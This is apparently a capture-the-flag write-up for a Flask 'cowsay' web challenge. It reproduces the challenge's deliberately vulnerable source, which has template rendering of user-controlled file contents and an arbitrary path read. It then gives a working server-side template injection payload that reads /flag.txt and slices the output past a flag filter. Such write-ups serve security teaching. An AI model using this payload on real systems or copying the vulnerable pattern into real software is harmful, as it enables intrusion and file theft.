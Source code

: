 # web3

For this challenge, we are given a website that bears a resemblance to a previous challenge we did (cowsay), though this one is a bit more complicated.

![img1](img/1.png)

We can start by just entering in some text and seeing what happens:

![img2](img/2.png)

Neat! Let's look at the source code:

```python
# coding=utf-8

from flask import render_template, render_template_string, flash, redirect, session, url_for, request, g, Markup, Response
from app import app
import uuid
import traceback
import os

def _generate_cowsay_file():
    return '/tmp/cow-' + str(uuid.uuid4())


@app.route('/')
@app.route('/index')
def index():
    return render_template('index.html')


@app.route('/cowsay')
def cowsay():
    filename_in = _generate_cowsay_file()
    filename_out = _generate_cowsay_file()
    with open(filename_in, 'w') as f:
        f.write(str(request.args.get('msg'))[:2000])

    # cowsay!
    os.system('cat ' + filename_in + ' | /usr/games/cowsay -TU -W 2000 > ' + filename_out + ' 2>&1')
    return redirect('/render?path=' + filename_out, code=302)


@app.route('/render')
def about():
    try:
        with open(request.args.get('path', 'layout.html'), 'r') as f:
            resp = render_template_string('''{% extends "layout.html" %}{% block content %}<div class="jumbo"><h1>Your cow says...</h1><code>''' + f.read() + '''</code><br><p><a href="/">do it again!!!!!!!!!</a></p></div>{% endblock %}''')

            # check if the user is trying to do something evil :((
            if u'OSUSEC{' in resp:
                resp = u'I see the flag in the response! Nice try.'

            return Response(response=resp, status=200)
    except:
        msg = 'We could not fetch your page! Sorry :(\n\n' + traceback.format_exc()
        return Response(response=msg, status=500, mimetype='text/plain')
```

Ah, we have a Flask challenge.  We've done this before (see nopship)! All we have to do is a Flask injection to do arbitrary read on `flag.txt`, but there is a slight problem, the server actually checks to see if 'OSUSEC{' is in the output, and aborts if it does. That's ok, because we can just read only the text after that.

Doing a simple google search for arbitrary read with Flask injection will give us our payload:

```
{{ config.items()[4][1].__class__.__mro__[1].__subclasses__()[40]("/flag.txt").read()[27:120] }}
```

And running it we get the flag!

```
OSUSEC{ok_s0_y0u_f1gur3d-out_d1rect0ry-tr@versal_w0nt-b3_helpful-here?}
```